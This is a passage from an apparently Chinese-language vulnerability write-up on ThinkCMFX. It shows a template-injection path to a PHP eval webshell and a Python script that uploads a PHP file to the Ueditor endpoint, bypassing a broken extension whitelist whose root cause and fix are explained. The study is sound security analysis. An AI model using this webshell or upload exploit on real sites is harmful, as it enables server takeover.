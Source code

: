![](https://img-blog.csdnimg.cn/20210707190156680.png)
发现会经过一大串过滤，然后`$tmplContent `经过编译后通过 **Storage::put** 函数保存，注意这里不能直接写入函数，必须加上php前缀`<?php`，不然代码就变为了：
```php
<?php if (!defined('THINK_PATH')) exit();?>file_put_contents('2.php','<?php @eval($_POST[cmd]); ?>')
```
从而无法解析我们的代码导致不生效，然后发现`<php>`也是可以生效的

最终将文件生成到data/runtime/Cache/Portal文件夹中，然后调用了 **Storage::load** 加载cache文件，那么即可生成webshell了
![](https://img-blog.csdnimg.cn/20210707191519981.png)
#### 前台任意文件上传
首先随便注册一个用户，登录获取Cookie
![](https://img-blog.csdnimg.cn/20210707200325172.png)
然后在`?g=Asset&m=Ueditor&a=upload&action=uploadfile`使用postman或者写一个上传界面抓包修改Cookie都行，上传参数为file，我这里用python上传了
```python
import requests
import os

os.chdir('c:/Users/bmth/Desktop/作业/CTF学习/上传文件/')

url = 'http://192.168.111.133/cms/ThinkCMFX/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile'

mycookie={ "PHPSESSID":"ijtge7spklk9986prdnp0c6me3" }

session = requests.session()

file = open("bmth.php","rb")
files = {'file': ('bmth.php',file,'image/png'),}

r = session.post(url,files=files,cookies = mycookie)
print(r.text)
```
![](https://img-blog.csdnimg.cn/20210707200656852.png)
访问发现成功上传，没有任何过滤，只验证了用户是否登录
![](https://img-blog.csdnimg.cn/20210707200725105.png)
在`application/Asset/Controller/UeditorController.class.php`中存在一个上传接口，但是在上传前存在一个权限验证，即登录后才可上传
![](https://img-blog.csdnimg.cn/20210707212919562.png)
然后进入到upload方法中，选择uploadfile接口继续跟踪，该接口调用了_ueditor_uplaod()函数
![](https://img-blog.csdnimg.cn/202107072130412.png)
进入到_ueditor_uplaod()函数，漏洞就在这个函数上
![](https://img-blog.csdnimg.cn/20210707215823769.png)
跟进到`application/Common/Common/function.php`的sp_get_upload_setting()函数，发现`$upload_setting`是个二维数组
![](https://img-blog.csdnimg.cn/20210707214514695.png)
>发现程序是通过后缀白名单来进行防御的，明显可以看出程序想用白名单数组，但是使用了`$upload_setting[$filetype]`获得的是一个数组，包含upload_max_filesize和extensions两个key，而explode的作用为把第二个参数通过字符串分割成数组，导致出错，最终返回了一个Null；
故此处少了`['extensions']`，正确写法应该是`$allowed_exts=explode(',', $upload_setting[$filetype]['extensions']);`，此处最终会导致 `$allowed_exts`的值为Null，导致白名单失效
